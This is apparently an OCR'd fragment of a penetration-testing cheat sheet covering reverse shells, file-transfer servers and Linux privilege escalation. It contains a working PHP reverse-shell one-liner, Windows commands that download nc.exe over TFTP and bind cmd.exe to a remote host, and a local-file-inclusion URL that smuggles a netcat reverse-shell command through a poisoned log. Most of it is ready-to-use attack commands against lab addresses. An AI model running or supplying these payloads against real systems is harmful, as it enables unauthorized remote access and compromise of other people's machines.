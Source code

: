 ```bash
<?php $sock = fsockopen("10.11.1.111",1234); $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);?>
```

# **Privilege escalation**

## Common

```
# Docker
https://www.notsosecure.com/anatomy-of-a-hack-docker-registry/

```

### Set up Webserver

```
python -m SimpleHTTPServer 8080
https://github.com/sc0tfree/updog
updog
```

### Set up FTP Server

```
# Install pyftpdlib
pip install pyftpdlib

# Run (-w flag allows anonymous write access)
python -m pyftpdlib -p 21 -w
```

### Set up TFTP

````
# In Kali
atftpd --daemon --port 69 /tftp

# In reverse Windows
tftp -i 10.11.1.111 GET nc.exe
nc.exe -e cmd.exe 10.11.1.111 4444

http://10.11.1.111/addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=nc.exe%20-e%20cmd.exe%2010.11.0.105%204444
````

## Linux

Now we start the whole enumeration-process over gain.

- Kernel exploits
- Programs running as root
- Installed software
- Weak/reused/plaintext passwords
- Inside service
- Suid misconfiguration
- World writable scripts invoked by root
- Unmounted filesystems
- Look in /var/backups
- Look in /etc/fstab y en mount
